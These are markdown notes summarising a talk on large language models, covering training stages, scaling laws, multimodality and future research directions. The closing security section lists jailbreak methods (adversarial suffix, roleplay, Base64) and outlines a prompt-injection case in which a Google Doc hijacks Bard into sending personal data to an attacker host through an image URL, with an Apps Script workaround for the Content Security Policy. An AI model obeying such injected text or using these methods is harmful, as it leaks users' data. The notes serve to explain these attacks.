```yaml
---
title: Andrej's Lessons
---
```


[Video Link(Click Me 🖱️)](https://www.youtube.com/watch?v=zjkBMFhNj_g&t=1511s)

### Here are the keytakeways

1. LLM Training takes greater time than writing code
2. Gathering the data is a huge part of the process
3. LLMs basically dream ; they are simply a neural network and the neural network tries to predict the next word
4. LLMs suffer from reversal curse
   For Example - Who is Tom Cruise's Mother
   Answer by GPT-4 - Mary Lee Pfieffer

Who is Mary Lee Pfieffer's som ?
Answer by GPT-4 - Don't know!

5. Think of LLMs as mostly inscrutible artifacts. develop correspondingly sophisticated evaluations

### Summary : how to train your chatgpt

#### Stage 1 : Pretraining

1. Download ~10TB of text
2. Get a cluster of ~6,000 GPUs
3. Compress the text into a neural network, pay ~2$M, wait ~12 days
4. Obtain base model.

(Do these steps every year)

#### Stage 2 : Fintuning

1. Write labelling instructions
2. Hire people ( or use scale.ai), collect 100K high quality Q&A responses and or/comparisons
3. Finetune base model on this data, wait ~1 day
4. Obtain assistant model
5. RUn a lot of evaluations
6. Deploy
7. Monitor, collect misbehavious, go to step 1

(Do this every week)

Stage 2 is lot cheaper than Stage 1

#### Stage 3 : Optional

It is often much easier to compare answers instead of writing answers.
LLMS can reference abd folow the labelling instructions just like humans can.
LLMS can create drafts, for humans to slice together into a final label
LLMS can review and critique labels based on the instructions.

### LLM Scaling Laws

Performance of LLMS is smooth well-behaved, predictable function of two parameters ( N and D)
where N is the number of parameters in the network
D is the amount of text we train on
So we can simply expect more intelligence by "Scaling"

### Multimodality

LLMS capability to generate not only text but video as well as audio
Right Now LLMS can both see, and generate images.
Speech to Speech Communication

#### Future development

1. System 1 vs System 2 thinking
   Example
   System 1 would be, what is 2+2
   Speed chess

System 2 would be what is 17x24
Timed chess

LLMS currently only have a System 1
System 2
Like tree search in chess, but in language ( tree of thoughts)
We want to "think":convert time to accuracy
Image time as x-axis and accuracy as y-axis.
So with time accuracy should increase.
A monotonically incrrasing plot

2. Self Improvement
   Learn by imitating expert human players.
   Learn by self-improvement(reward=win the game)

   Big question in LLMs :
   What does Step 2 look like in the open domain of language ?
   Main challenge : Lack of reward criterion

3. Custom LLMs ( Already done)
   We can also add knowledge by uploading files.
   RAG - Retrievel augmented generation. We can upload files and chatgpt can reference those files to give responses. Like Claude 2 we can upload pdfs.
   ![Alt text](image.png)

4. Communicate with other LLMs
   ![Alt text](../public/images/llmos.png)

### LLM Security

1. Jailbreak (This is so cool though!)
   ![Alt text](../public/images/jailbreak.png)
   Using Universal Transferable suffix
   Using Roleplay
   Using Base64 encoding
2. Prompt injection

3. Ask Bard to help with a shared Google Doc
4. Google Doc contains a prompt injection attack
5. Bard is hijacked and encodes personal data/information into an image URL
   ! [Data Exfiltration in Progress] (https://wuzzi.net/logo.png?goog=[DATA_EXFILTRATION]
6. The attacker controls the server and gets the data via the GET request
7. Problem: Google now has a "Content Security Policy" that blocks loading images from arbitrary locations
8. Solution: use "Google Apps Scripts"
   Apps Script (office macros-like functionality)
9. Use Apps Script to export the data to a Google Doc (that the attacker has access to)

10. Data poisoning/ Backdoor attacks
